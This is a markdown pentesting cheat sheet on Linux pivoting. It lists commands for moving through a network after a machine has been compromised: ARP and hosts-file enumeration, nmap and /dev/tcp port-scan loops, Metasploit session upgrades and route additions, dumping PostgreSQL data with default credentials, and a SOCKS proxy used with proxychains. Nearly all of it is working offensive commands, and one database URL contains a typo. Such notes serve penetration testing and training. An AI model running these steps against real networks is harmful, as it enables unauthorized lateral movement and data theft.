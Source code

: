 ```yaml
---
title: Linux Pivoting
description: Accessing obtained over one machine to exploit another machine deeper in the network.
tags:
    - Network
refs:
date: 2023-02-05
draft: false
---
```


## Enumerate Network

After entering the target server, enumerate and search other networks.

### Check the ARP Cache in Target Machine

```sh
arp -a
```

### Check IP Addresses

```sh
cat /etc/hosts
cat /etc/resolv.conf
nmcli dev show
```

### Search Other Network Ranges

```sh
# We may be able to find the other ip addresses in hosts file.
cat /etc/hosts

# Mapping network ranges.
nmap 10.0.0.1-255
nmap 172.17.0.1-255

# Manual
for i in {1..255}; do (ping -c 1 10.0.0.${i} | grep "bytes from" &); done
```

### Port Scan

If we find other ip addresses, let's find the open ports.

```sh
nmap 10.0.0.1
nmap 172.17.0.1

# Manual port scan
for i in {1..65535}; do (echo > /dev/tcp/172.17.0.1/$i) >/dev/null 2>&1 && echo $i is open; done
```

<br />

## Basic Flow with Metasploit, Meterpreter

```sh
msfconsole
msf> use auxiliary/...
msf> run

msf> background

# Upgrade the latest session to meterpreter
msf> sessions -u -1
# Interact with the latest session (meterpreter)
msf> sessions -i -1

# Resolve the remote hostname to an ip address
meterpreter> resolve <variable>

# Background the meterpreter session
meterpreter> background

# Configure the routing table to the destination for 172.28.101.51 (outputted ip of the "resolve" command) to the latest opened session.
msf> route add 172.28.101.51/32 -1

# Configure the routing table to the other destination for 172.17.0.1 (e.g. written in /.dockerenv) to the latest opened session.
msf> route add 172.17.0.1/32 -1

# Print the routing table
msf> route print
```

After modifying the routing table, you can fetch information using the IP (e.g. 172.28.101.51) in msfconsole. For example:

```sh
# PostgreSQL
msf> use auxiliary/scanner/postgres/postgres_schemadump
msf> run postgres://postgres:postgres@172.28.101.51/postgres

msf> use auxiliary/admin/postgres/postgres_sql
msf> run postgres://postgres:postgres@172.28.101/postgres sql='select * from <table>'
```

- **Socks Proxy**

    It is an intermediate server that supports relaying networking traffic between two machines.

    ```sh
    msfconsole
    msf> use auxiliary/server/socks_proxy
    msf> run srvhost=127.0.0.1 srvport=9050 version=4a

    # Check if the socks proxy is running as a background job.
    msf> jobs
    # Stop the socks proxy
    msf> jobs -k <job-id>
    ```

    After that, you can use the [localhost](http://localhost) using tools like curl, proxychains.

    ```sh
    curl --proxy socks4a://localhost:9050 http://172.17.0.1 -v

    proxychains nmap 172.17.0.1
    proxychains ssh <user>@172.17.0.1
    ```